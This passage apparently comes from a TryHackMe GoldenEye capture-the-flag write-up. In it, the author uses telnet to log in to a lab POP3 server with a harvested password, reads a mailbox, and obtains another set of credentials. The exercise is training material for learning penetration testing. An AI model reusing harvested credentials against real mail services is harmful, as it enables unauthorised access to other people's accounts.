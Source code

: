 <p class="message">
✅ Answer: <strong>goat</strong>

</p>

### Use this users credentials to go through all the services you have found to reveal more emails.

<p class="message">
✅ No answer needed

</p>

So I get back to the terminal and use the **telnet** service → Log in as user `doak` → Read the message:

```

┌──(kali㉿kali)-[~/TryHackMe/GoldenEye]
└─$ telnet severnaya-station.com 55007
Trying 10.10.133.138...
Connected to severnaya-station.com.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER doak
+OK
PASS goat
+OK Logged in.
LIST
+OK 1 messages:
1 606
.
RETR 1
+OK 606 octets
Return-Path: <doak@ubuntu>
X-Original-To: doak
Delivered-To: doak@ubuntu
Received: from doak (localhost [127.0.0.1])
by ubuntu (Postfix) with SMTP id 97DC24549D
for <doak>; Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
Message-Id: <20180425034731.97DC24549D@ubuntu>
Date: Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
From: doak@ubuntu

James,
If you're reading this, congrats you've gotten this far. You know how tradecraft works right?

Because I don't. Go to our training site and login to my account....dig until you can exfiltrate further information......

username: dr_doak
password: 4England!

.
QUIT
+OK Logging out.
Connection closed by foreign host.

```
